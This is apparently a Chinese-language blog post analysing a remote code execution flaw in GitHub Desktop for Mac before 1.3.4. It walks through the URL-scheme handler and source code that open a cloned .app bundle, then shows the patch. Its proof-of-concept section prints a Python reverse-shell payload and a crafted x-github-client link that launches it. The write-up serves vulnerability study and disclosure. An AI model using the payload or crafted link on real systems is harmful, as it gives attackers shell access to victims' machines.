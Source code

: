 ```yaml
---
layout: post
title: Github Desktop for Mac < 1.3.4 RCE 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;白天看到老外在H1-702 2018玩的项目，electron的案例不多，感觉有点意思复现下。

> 准备工作：

* https://github.com/desktop/desktop/archive/release-1.3.3.zip
* 恢复下.git/目录以及所需的文件
* yarn install
* yarn build:prod
* mv dist/GitHub Desktop-darwin-x64/GitHub Desktop.app /Applications


> 漏洞成因:

首先github的`Clone or download`按钮包含一个`Open in Desktop`的pull方式

验证时发现目前该方式的协议为`github-mac://`但早起版本的协议应该是`x-github-client://`，并且包含几个参数:

```
x-github-client://openRepo/https://github.com/user/repo?branch=master&filepath=README.md
```

app/src/lib/app-shell.ts

```
export const shell: IAppShell = {
	moveItemToTrash: electronShell.moveItemToTrash,
	beep: electronShell.beep,
	openExternal: path => {
		return new Promise<boolean>((resolve, reject) => {
			ipcRenderer.once(
				'open-external-result',
				(event: Electron.IpcMessageEvent, { result }: { result: boolean }) => {
					resolve(result)
				}
			)

			ipcRenderer.send('open-external', { path })
		})
	},
	showItemInFolder: path => {
		ipcRenderer.send('show-item-in-folder', { path })
	},
	openItem: electronShell.openItem,
}
```

ipcRenderer对象使用`show-item-in-folder`事件发送获取到的path

跟进app/src/main-process/main.ts

```
ipcMain.on(
	'show-item-in-folder',
	(event: Electron.IpcMessageEvent, { path }: { path: string }) => {
		Fs.stat(path, (err, stats) => {
			if (err) {
				log.error(`Unable to find file at '${path}'`, err)
				return
			}

			if (stats.isDirectory()) {
				openDirectorySafe(path)
			} else {
				shell.showItemInFolder(path)
			}
		})
	}
)
```

ipcMain对象监听到该事件消息后，fs库判断下是否为目录，如果是则传进`openDirectorySafe`。但没有考虑到mac系统下.app也是为目录的

```
> fs = require('fs')
> fs.stat('/Applications/GitHub Desktop.app',(err,stats)=>{console.log(stats.isDirectory())})
> true
```

跟进app/src/main-process/shell.ts

```
export function openDirectorySafe(path: string) {
	if (__DARWIN__) {
		const directoryURL = Url.format({
			pathname: path,
			protocol: 'file:',
			slashes: true,
		})

		shell.openExternal(directoryURL)
	} else {
		shell.openItem(path)
	}
}
```

判断如果是mac系统则使用`file://`协议重新构造url，并`shell.openExternal`运行。

> POC:

作者编写的py版本<a target="_blank" href="https://github.com/0xACB/github-desktop-poc">POC</a>，并用Pyinstaller打包了起来

```
import socket,subprocess,os;

os.system("open -a calculator.app")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("localhost",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

本地监听，浏览器打开包含指定POC APP的链接：

```
x-github-client://openRepo/https://github.com/0xACB/github-desktop-poc?branch=master&filepath=osx/evil-app/rce.app
```

浏览器询问是否使用GitHub Desktop.app打开，确定并开始clone，随后反弹shell。

> Fixed:

fix方式很简单，判断不是mac系统最终才可以打开

```
-        if (stats.isDirectory()) {
+        if (!__DARWIN__ && stats.isDirectory()) {
```